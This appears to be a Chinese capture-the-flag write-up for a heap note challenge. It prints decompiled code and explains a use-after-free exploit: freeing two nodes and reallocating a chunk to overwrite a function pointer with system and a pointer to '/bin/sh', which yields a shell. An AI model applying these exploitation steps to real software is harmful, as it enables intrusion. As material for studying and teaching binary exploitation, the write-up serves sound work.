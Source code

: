 **利用：UAF**
程序提供了三个操作：add node，delete node，print node .

add函数：
最多可以malloc三次。
```
unsigned int add()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+1Ch] [ebp-1Ch]
  int size; // [esp+20h] [ebp-18h]
  char buf; // [esp+24h] [ebp-14h]
  unsigned int v5; // [esp+2Ch] [ebp-Ch]
  if ( number <= 2 )
  {
    for ( i = 0; i <= 2; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);                    // 16 byte
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);                            
        }
        *(_DWORD *)ptr[i] = puts_content;
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        v0 = ptr[i];
        v0[1] = malloc(size);
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);
        puts("Success !");
        ++number;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
    puts("Full");
}
```
add函数申请了两个chunk。
一个chunk用来存放node的信息：puts_content函数的地址，content_ptr.
另一个chunk用来存放content。
可用以下结构体表示：
```
struct info
{
   void (* fun_ptr)(void *)
   char*   content_ptr
}
--low addr--
info_chunk   16 byte
content_chunk
--hign addr--
```
delete函数：
free后没有将指针置为NULL，存在UAF。

程序中给出了后门函数：
```
int __cdecl sub_8048672(int a1)
{
  return system(*(const char **)(a1 + 4));
}
```
那么利用UAF，将某个node 的info chunk 中的函数指针修改为后门函数。
程序刚开始输入的name，输入/bin/sh，将info chunk中的content_ptr修改为&name，下次调用print函数时即可getshell。

具体利用过程为：
```
create(0x30,"a")#index0
create(0x30,"a")#index1
```
只要申请的content的chunk的size不是16byte即可。
```
delete(0)
delete(1)
```
再申请一个chunk,create(14,p32(system)+p32(&name))，拿到的content chunk即是index0的info chunk。

